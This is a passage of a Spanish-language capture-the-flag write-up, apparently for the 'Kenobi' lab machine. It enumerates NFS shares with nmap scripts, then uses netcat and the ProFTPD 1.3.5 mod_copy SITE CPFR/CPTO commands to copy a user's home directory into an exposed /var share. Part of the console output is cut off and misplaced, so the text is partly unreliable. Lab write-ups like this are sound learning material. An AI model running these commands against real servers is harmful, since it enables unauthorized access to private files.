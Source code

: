 En dicho puerto no se puede hacer más por el momento, por ello, se lanzan los scripts nse en el puerto de rpc (111) para que se listen los recursos nfs que tenga compartidos.

Se descubre que el directorio ```/var``` se encuentra compartido y que adema

~~~console
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.6.212
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-17 19:54 GMT
Nmap scan report for 10.10.6.212
Host is up (0.19s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
~~~

Entonces, se debe montar en la máquina local dicha partición remota.

Para ello, se debe usar el comando ```mount```, aunque se debe disponer del paquete ```nfs-common``` para montar unidades remotas mediante el protocolo NFS.

![](https://i.imgur.com/2FjTJlE.png)

## Acceso inicial. ## 

Se buscan algún exploit del programa proftp en su versión 1.3.5 y se encuentra una del módulo **mod_copy**.

La vulnerabilidad hace uso de los comandos ```cpfr``` y ```cpto``` para copiar la ruta elegida donde se defina en el destino.

Entonces, se mediante el comando ```netcat``` se accede al puerto 21, el cual permite el acceso anónimo, y así poder lanzar los comandos para montar el directorio personal del usuario **kenobi** en la ruta ```/var``` y así poder acceder mediante el montaje hecho previamente.

~~~console
nc 10.10.65.29 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.65.29]
site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@kenobi
site cpfr /home/kenobi 
350 File or directory exists, ready for destination name
site cpto /var/tmp/
250 Copy successf


Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
~~~
